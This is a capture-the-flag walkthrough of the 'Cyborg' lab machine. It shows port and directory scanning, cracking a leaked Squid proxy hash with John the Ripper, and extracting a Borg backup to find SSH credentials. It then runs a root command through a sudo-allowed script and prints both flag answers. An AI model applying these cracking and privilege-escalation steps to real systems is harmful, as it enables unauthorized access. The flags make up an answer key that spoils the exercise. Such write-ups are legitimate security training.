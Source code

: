 # Cyborg

## Nmap

```bash
nmap -sV -p- -T4 <IP> -vv
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

---

## Web Enumeration

Doing a dirsearch, we see an admin page since the main page is just an Apache default page:

```
04:08:34  403   275B  /.htaccess_orig
04:08:40  301   308B  /admin   →  http://cyborg.thm/admin/
04:08:40  200     2KB  /admin/
04:08:40  200     2KB  /admin/admin.html
04:08:41  200     2KB  /admin/index.html
04:08:55  301   306B  /etc   →  http://cyborg.thm/etc/
04:08:55  200   442B  /etc/
04:09:18  403   275B  /server-st
```

Looking around the admin page, we see this chat log:

```
############################################
[Yesterday at 4.32pm from Josh]
Are we all going to watch the football game at the weekend??
############################################
############################################
[Yesterday at 4.33pm from Adam]
Yeah Yeah mate absolutely hope they win!
############################################
############################################
[Yesterday at 4.35pm from Josh]
See you there then mate!
############################################
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
Other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
############################################
```

---

## Squid Proxy Config

Going to check the squid proxy config in `/etc/`, we see:

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users

music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

That looks like a hash, so let’s crack it:

```bash
# 1) Save the hash
echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > hash.txt

# 2) Crack as md5crypt (APR1)
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Result:

```
music_archive:squidward
```

---

## Archive Access

Going back to the admin page, I saw we could download a file in the archive tab.

<img width="558" height="184" alt="Screenshot From 2025-09-02 23-17-43" src="https://github.com/user-attachments/assets/fa67bb6c-e5be-43a8-b86e-8b2964c00964" />

Opening it up, there were a couple of files. Looking around, I found a `Readme` with the site:

```
https://borgbackup.readthedocs.io/
```

I also saw a config file named `final_archive`:

```
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
```

From the BorgBackup docs, we can extract with:

```bash
borg extract /path/to/repo::archive_name
```

I listed the archive:

```bash
borg list home/field/dev/final_archive
```

Result:

```
music_archive  Tue, 2020-12-29 14:00:38  [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Then extracted:

```bash
borg extract home/field/dev/final_archive::music_archive
```

Inside `/root/home/alex/Documents`, I found `note.txt`:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

---

## SSH

Logging in with `alex:S3cretP@s3`, I found the first flag:

> Q1: User flag
> A1: flag{1\_hop3\_y0u\_ke3p\_th3\_arch1v3s\_saf3}

---

## Privilege Escalation

Running `sudo -l` as alex:

```
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Looking at `/etc/mp3backups/backup.sh`:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

while getopts c: flag
do
    case "${flag}" in 
        c) command=${OPTARG};;
    esac
done

cmd=$($command)
echo $cmd
```

The script runs whatever is passed in via `-c` as root. I used it to grab the root flag directly:

```bash
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```

---

## Flags

> Q1: User flag
> A1: flag{1\_hop3\_y0u\_ke3p\_th3\_arch1v3s\_saf3}

> Q2: Root flag
> A2: flag{Than5s\_f0r\_play1ng\_H0p£\_y0u\_enJ053d}
